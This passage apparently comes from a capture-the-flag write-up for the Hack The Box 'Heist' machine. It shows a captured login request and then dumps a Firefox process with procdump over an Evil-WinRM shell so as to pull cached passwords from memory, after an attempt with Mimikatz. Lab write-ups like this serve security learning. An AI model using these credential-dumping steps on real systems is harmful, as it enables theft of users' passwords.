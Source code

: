 Let's capture the Login Request in Burp. We will need it to figure out how the login form is sending the `POST` data.

```
POST /login.php HTTP/1.1
Host: heist.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 61
Origin: http://heist.htb
Connection: keep-alive
Referer: http://heist.htb/login.php
Cookie: PHPSESSID=bbdugni2a2p5fffk6cm7674i1b
Upgrade-Insecure-Requests: 1

login_username=support%40heist.htb&login_password=asdf&login=
```

This is a HTTP request with a wrong password and wrong email but we manage to capture the format of how the data is being sent. 

I tried to dump the credentials using `Invoke-Mimikatz` but unfortunately it wasn't working for me. So I decided to go with dumping the `firefox.exe` process using `[[procdump64.exe]](https://live.sysinternals.com/procdump64.exe)`.

```
*Evil-WinRM* PS C:\tmp> Get-Process firefox

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    355      25    16464     297388       0.09   4180   1 firefox
   1079      71   155932     232648       6.14   6556   1 firefox
    347      19    10204      35284       0.09   6676   1 firefox
    401      34    37224      95612       0.95   6808   1 firefox
    378      28    23480      60216       0.39   7084   1 firefox


*Evil-WinRM* PS C:\tmp> .\procdump64.exe -ma 4180 -accepteula

ProcDump v11.0 - Sysinternals process dump utility
Copyright (C) 2009-2022 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[14:22:34] Dump 1 initiated: C:\tmp\firefox.exe_240901_142234.dmp
[14:22:34] Dump 1 writing: Estimated dump file size is 298 MB.
[14:22:34] Dump 1 complete: 298 MB written in 0.4 seconds
[14:22:35] Dump count reached.
```

###### Grabbing Strings from Dump File
Next, We are going to locate the string `login_username=` from the dump file to pull out the password stored in the cache post request.
